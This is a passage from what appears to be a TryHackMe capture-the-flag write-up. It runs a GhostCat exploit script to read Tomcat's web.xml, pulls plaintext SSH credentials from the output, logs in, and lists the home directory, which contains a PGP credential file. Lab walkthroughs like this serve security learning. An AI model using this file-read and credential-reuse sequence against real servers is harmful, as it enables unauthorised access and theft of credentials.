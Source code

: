 ~~~
$ python3 exploit.py read /WEB-INF/web.xml 10.10.159.44
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
   skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
~~~

We now have credentials that we will use to connect with ssh:
* username: `skyfuck`
* password: `8730281lkjlkjdqlksalks`

No flag in our `home` directory, but interesting files that we will analyze later.

~~~
skyfuck@ubuntu:~$ ll
total 44
drwxr-xr-x 4 skyfuck skyfuck 4096 May 13 00:59 ./
drwxr-xr-x 4 root    root    4096 Mar 10 21:58 ../
-rw------- 1 skyfuck skyfuck  136 Mar 10 22:45 .bash_history
-rw-r--r-- 1 skyfuck skyfuck  220 Mar 10 21:58 .bash_logout
-rw-r--r-- 1 skyfuck skyfuck 3771 Mar 10 21:58 .bashrc
drwx------ 2 skyfuck skyfuck 4096 May 13 00:58 .cache/
-rw-rw-r-- 1 skyfuck skyfuck  394 Mar 10 22:09 credential.pgp
drwx------ 2 skyfuck skyfuck 4096 May 13 01:00 .gnupg/
-rw-r--r-- 1 skyfuck skyfuck  655 Mar 10 21:58 .profile
-rw-rw-r-- 1 skyfuck skyfuck 5144 Mar 10 22:10 tryhackme.asc
~~~
